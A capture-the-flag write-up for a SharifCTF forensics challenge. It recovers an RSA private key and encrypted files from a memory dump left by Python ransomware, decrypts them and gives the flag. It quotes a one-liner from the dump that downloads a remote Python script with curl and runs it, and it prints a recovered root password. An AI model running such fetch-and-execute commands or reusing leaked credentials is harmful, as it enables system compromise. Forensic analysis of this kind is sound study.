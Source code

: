By searching `locky` we can get python script (ransomware in py)
it generates 4096 RSA private key and encrypts files using this key in rounds 0-13 (depend on time)
crypted files are saved as .locky ext, public key as .locky_$stamp (see the code)  and private key as privkey.pem
looking for private key PEM header `BEGIN RSA PRIVATE KEY`  we can get private key from dump.
we just need cryped file to get the flag. searching ".locking" will list files that crypted file_1 - file_5.
the dump contain result of `ls -la` command that give us more details. file_5 with size 44 can be flag.

```
root@debian:~/dump# ls -al
total 44
drwx------  3 root root 4096 Nov 30 07:46 .
drwxr-xr-x 22 root root 4096 Aug 24 12:36 ..
-rw-------  1 root root  694 Nov 30 07:43 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  2 root root 4096 Nov 30 05:54 dump
-rw-r--r--  1 root root   21 Nov 30 07:46 file_1
-rw-r--r--  1 root root   21 Nov 30 07:46 file_2
-rw-r--r--  1 root root   21 Nov 30 07:46 file_3
-rw-r--r--  1 root root   21 Nov 30 07:46 file_4
-rw-r--r--  1 root root   44 Nov 30 07:46 file_5
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
```

by running the python ransomware in test environment it is obvious the final crypted file size (with 44 byte az input) is 512 byte.
we dumped our test process memory. looking at the dump we got and based on our sample crypted files we can see there is a signature before crypted bytes in memory.
finding result of one of rounds is enough cuz max(round) = 13 (see line 26 of code: round = stamp % 14 )

that signature was 0002000000000000FFFFFFFFFFFFFFFF00000000 , searching this in dump we select 512 byte data after it (4 files we got)
decrypting these files using privatekey 13 times and saving each round lead us to flag.

```
$ grep -n -r SharifCTF *
1.bin_11.txt:1:SharifCTF{df90036c153c345dc707d693225f29e3}
```

the stamp also used in pubkey filename and available in dump that we can use it but 13 is few , not important too much


search "curl -fsSL"  to see link of python files downloaded and executed

```
root@debian:~/dump# /usr/bin/python -c "$(curl -fsSL https://a.uguu.se/0RLtwwwAqLuw.py)"
```

--
we also got probable root password from dump(xD) : `Ya@Abbas`

